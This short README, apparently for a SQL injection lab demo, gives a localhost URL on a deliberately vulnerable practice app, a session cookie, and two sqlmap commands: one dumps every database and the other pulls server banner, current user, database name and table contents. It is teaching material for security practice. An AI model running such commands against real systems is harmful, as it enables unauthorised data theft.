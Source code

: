 # SQL Injection Demo

## URL to Test

[http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#](http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#)

## Cookie Data to Send

- PHPSESSID: `0bf460cc2a7016175bb93c7b6e82c30b`
- security: `low`

## Attack to Show All Data

```bash
sudo sqlmap -u "http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=0bf460cc2a7016175bb93c7b6e82c30b;security=low" --dump-all
```

## Attack to Get Specific Data

```bash
sudo sqlmap -u "http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=0bf460cc2a7016175bb93c7b6e82c30b;security=low" --banner --current-user --current-db --dump
```
